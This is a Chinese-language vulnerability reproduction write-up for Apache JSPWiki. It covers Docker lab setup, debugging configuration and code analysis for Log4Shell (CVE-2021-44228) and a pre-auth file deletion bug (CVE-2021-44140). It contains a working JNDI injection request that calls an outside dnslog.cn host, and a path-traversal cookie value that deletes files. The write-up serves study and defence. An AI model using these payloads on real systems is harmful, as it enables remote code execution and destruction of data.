









## 相关漏洞
### CVE-2021-44228 Log4shell 

#### 漏洞描述

影响范围(已确认)：v2.11.0




#### 漏洞复现

##### 环境搭建

查看仓库存在哪些版本的镜像

```shell
curl https://registry.hub.docker.com/v1/repositories/jspwiki/tags| tr -d '[\[\]" ]' | tr '}' '\n'| awk -F: -v image='jspwiki' '{if(NR!=NF && $3 != ""){printf("%s:%s\n",image,$3)}}'
```


有存在log4shell版本(v2.11.0)的镜像，拉取

```shell
sudo docker pull apache/jspwiki:release-2.11.0

# 或者
docker pull vultarget/jspwiki_log4j_rce:2.11.0
```

查看本地已经pull的镜像

```
sudo docker images
```



启动

```shell
# 提前将调试端口映射出来
sudo docker run -d -p 8080:8080 -p 5005:5005  --name jspwiki_log4shell_debug  vultarget/jspwiki_log4j_rce:2.11.0
```

应用首页


##### 漏洞验证

**proof of concept**

```
curl -vv http://10.10.10.139:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/9p1lvv.dnslog.cn%7D/
```


### CVE-2021-44140 Pre-auth 文件删除

#### 漏洞描述

https://jspwiki-wiki.apache.org/Wiki.jsp?page=CVE-2021-44140

影响范围：Apache JSPWiki up to 2.11.0.M8

#### 漏洞复现

##### 环境搭建

###### 基于docker

搜索镜像

```
sudo docker search jspwiki
```



```
sudo docker pull vulfocus/jspwiki-cve_2021_44140
docker run -d -p 8080:8080 --name jspwiki vulfocus/jspwiki-cve_2021_44140
```


如图，成功搭建



```
# 二次启动时，使用container id 即可
sudo dokcer ps -a
sudo docker start a50359cfb0d1

# 进入container 内部
sudo docker exec -it a50359cfb0d1 /bin/sh
```


配置远程调试,在/bin/catalina.sh中添加如下代码：

```
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5005,suspend=n,server=y"
```

- address=5005: 5005为远程debug时监听的端口



退出，将调试端口也映射出来

- 为运行的container增加端口 
  - https://stackoverflow.com/questions/19335444/how-do-i-assign-a-port-mapping-to-an-existing-docker-container

```
docker commit jspwiki jspwiki_debug
sudo docker run -p 8080:8080 -p 5005:5005 -td jspwiki_debug
```

本地idea测试


`Connected` 表示成功




##### 漏洞验证

**proof of concept**

现在/tmp/目录下创建flag.txt




```shell
Get /Logout.jsp
...
...
Cookie: JSESSIONID=xxx; JSPWikiAssertedName=xxx; JSPWikiUserPrefs=xxx;JSPWikiUID=../../../../../../../../../../../../../../../tmp/flag.txt
```


成功删除flag.txt


#### 漏洞分析

根据漏洞名称。可以猜出漏洞点在注销处。

测试版本：2.11.0.M7

跟进

- logout.jsp

  调用CookieAuthenticationLoginModule.clearLoginCookie() 删除cookie

  

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#clearLoginCookie

  

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getLoginCookie(javax.servlet.http.HttpServletRequest)

  存在可控参数JSPWikiUID

  

  若满足条件,则调用getCookieFile()，返回值赋值给uid

  ```
  String uid = getLoginCookie(request);
  ```

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getCookieFile

  

  创建cookieDir

  ```
  # 拼接后作为路径
  File cookieDir = new File(engine.getWorkDir(), "logincookies");
  ```

  若该路径不存在，则创建，执行流程走到第2个else分支

  ```
  File file = new File(cookieDir, uid);
  ```

  根据cookdir 和 uid 创建文件，返回值赋值给cf 。

  若满足条件

  ```
  cf != null && !cf.delete()
  ```

  则将文件cf进行删除处理
  
  

